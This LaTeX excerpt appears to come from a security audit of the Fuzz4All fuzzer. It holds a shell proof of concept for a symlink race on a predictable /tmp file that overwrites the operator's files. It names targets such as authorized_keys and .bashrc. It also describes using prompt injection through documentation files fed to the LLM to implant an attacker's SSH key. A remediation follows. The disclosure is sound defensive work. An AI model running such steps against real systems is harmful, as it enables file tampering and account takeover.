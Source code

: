 \documentclass[conference]{IEEEtran}
\begin{document}
\textbf{Proof of concept (deterministic, single-user demo).}

\begin{lstlisting}[style=sh,caption={F2 proof of concept.},label={lst:f2poc}]
# 1. Sentinel file we will pretend belongs to the victim.
mkdir -p /tmp/poc_target
echo SECRET > /tmp/poc_target/secret.txt

# 2. Predict CURRENT_TIME (start the fuzzer at TS+1 second).
TS=$(python -c 'import time;print(time.time()+1)')
ln -s /tmp/poc_target/secret.txt /tmp/temp${TS}.cpp

# 3. Run the fuzzer in the same window.
python Fuzz4All/fuzz.py --config config/cpp_repair_smoke.yaml \
   main_with_config --folder /tmp/poc_f2 --target /usr/bin/g++

# 4. Observe: secret.txt has been clobbered with C++ code.
cat /tmp/poc_target/secret.txt
\end{lstlisting}

\textbf{Impact.} Arbitrary file overwrite as the operator. Realistic
targets on an HPC home directory include
\texttt{\textasciitilde/.ssh/authorized\_keys} (denial of service
against SSH), \texttt{\textasciitilde/.bashrc} (persistence via shell
init), and Slurm submission scripts (lateral compromise). Combined with
prompt injection through the documentation files (which feed the LLM
prompt at \texttt{Fuzz4All/target/target.py:182--191}), the attacker
controls the \emph{content} of the overwritten file and can implant
their own SSH key.

\textbf{Recommended remediation.} Use the standard library's
\texttt{tempfile} module to obtain a private per-run directory and open
files with \texttt{O\_NOFOLLOW}:

\begin{lstlisting}[style=py,caption={Recommended fix for F2.}]
import os, tempfile

class CPPTarget(Target):
    def __init__(self, **kwargs):
        super().__init__(**kwargs)
        self.tmpdir = tempfile.mkdtemp(prefix="fuzz4all_", dir="/tmp")
        os.chmod(self.tmpdir, 0o700)
    def write_back_file(self, code):
        path = os.path.join(self.tmpdir, f"prog_{os.getpid()}.cpp")
        fd = os.open(path,
            os.O_WRONLY|os.O_CREAT|os.O_EXCL|os.O_NOFOLLOW, 0o600)
        with os.fdopen(fd, "w", encoding="utf-8") as f:
            f.write(code)
        return path
\end{lstlisting}

\end{document}
